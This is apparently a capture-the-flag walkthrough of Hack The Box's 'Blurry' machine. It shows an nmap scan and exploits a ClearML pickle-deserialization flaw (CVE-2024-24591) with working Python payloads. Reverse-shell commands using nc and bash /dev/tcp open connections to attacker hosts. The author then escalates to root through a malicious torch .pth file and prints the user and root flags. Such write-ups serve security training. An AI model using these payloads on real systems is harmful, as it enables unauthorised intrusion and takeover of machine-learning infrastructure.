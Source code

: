 ```yaml
---
title: Blurry - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blurry.png
---
```

---
title: Blurry - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blurry.png
---
---
title: 2024-10-12-Blurry - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Blurry.png
---
### Scan
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sVC -p- --open 10.10.11.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 08:57 EDT
Nmap scan report for 10.10.11.19
Host is up (0.12s latency).
Not shown: 64850 closed tcp ports (reset), 683 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.26 seconds

```
### Enum
We get a redirect, so lets update our `/etc/hosts`
We brute subdomains and web directories, yielding this:![Image](/assets/Screenshot 2024-10-09 at 1.09.59 PM.png)
Also this:![Image](/assets/Screenshot 2024-10-09 at 1.33.09 PM.png)
Add everything to `/etc/hosts`
Visiting the link, we get a portal. Creating a user gives us access. ClearML is AI software. Rooting around tells us 1.13.1
CVE-2024-24591 ![Image](/assets/Screenshot 2024-10-09 at 1.15.38 PM.png)
Great explanation here: https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
We'll need to install clearml with `pip install clearml`
Then, for configuration purposes, create new credentials on the site via settings, and paste into the terminal when prompted.![Image](/assets/Screenshot 2024-10-09 at 1.34.13 PM.png)
Now, we can move on to the python script in order to plant a malicious files on the user via the poisoned dataset with dir traversal
Code meandering we stumble on 'Black Swan', and we can see that it is a script tasked with processing JSON artifacts. We can abuse this functionality by uploading our pickle file and passing it through this function for arbitrary code execution.
```
import pickle  
import os  
from clearml import Task, Logger  
  
  
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])  
  
  
  
class MaliciousCode:  
    def __reduce__(self):  
  
        cmd = (  
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker-ip attacker-port > /tmp/f"  
        )  
        return (os.system, (cmd,))  
  
  
malicious_object = MaliciousCode()  
pickle_filename = 'malicious_pickle.pkl'  
with open(pickle_filename, 'wb') as f:  
    pickle.dump(malicious_object, f)  
  
print("Malicious pickle file with reverse shell created.")  
  
  
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")  
  
print("Malicious pickle file uploaded as artifact.")
```
Run it ![Image](/assets/Screenshot 2024-10-09 at 1.54.22 PM.png)
Shell as jippity! Stabilize shell
sudo -l ![Image](/assets/Screenshot 2024-10-09 at 1.56.37 PM.png)
we'll play with that in a second. First, grab user flag, and notice ssh private key!
user:3f27bf4798adad24993c80ea10ec74d9
create file and chmod 400 to ssh back in
`vim rsa.key` paste. Make sure to include begin and end part
`chmod 400 rsa.key`
`ssh -i rsa.key jippity@10.10.11.19`
![Image](/assets/Screenshot 2024-10-09 at 2.03.39 PM.png)
### Priv esc
remember the nopasswd? here we go. 
Lets create a py script that drops a malicious pth file so taht we can eecute
`vim evilpath.py` and use
```
import torch
import os

class Payload:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'",))

evil = Payload()
torch.save(evil, 'evil.pth')
```

then to run, `python3 evilpath.py` followed by `cp evil.pth /models && sudo /usr/bin/evaluate_model /models/evil.pth`. It should hang

Your listener set at 9001 should catch the root shell!

Root:45ab0078950cb8dbd2d3ea188f62f389

GET INTO THE WEEDS WRITING THIS MF. alal of em for that matter
